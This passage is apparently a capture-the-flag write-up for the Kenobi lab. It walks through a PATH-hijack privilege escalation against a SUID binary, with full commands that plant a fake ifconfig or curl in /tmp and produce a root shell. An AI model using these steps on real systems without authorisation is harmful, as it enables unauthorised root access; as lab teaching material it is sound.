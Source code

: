 There is particular binary that sticks out, `/usr/bin/menu` When we run the bin, we have 3 options:

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Thu, 30 Sep 2021 00:09:31 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html

```

By doing a little bit of basic static analysis using the `strings` command, we can dump the readable strings from the binary. `strings /usr/bin/menu`:

```
. . .
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
Invalid choice
. . .

```

We can see the commands running and abuse the fact that there is no absolute path (full path) given and that it is a suid program:

```
cd /tmp/
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

We can also do the same with ifconfig, which is what I chose to do:

```
kenobi@kenobi:/tmp$ echo /bin/bash > ifconfig
kenobi@kenobi:/tmp$ chmod +x ifconfig
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# whoami
root
root@kenobi:/tmp# id
```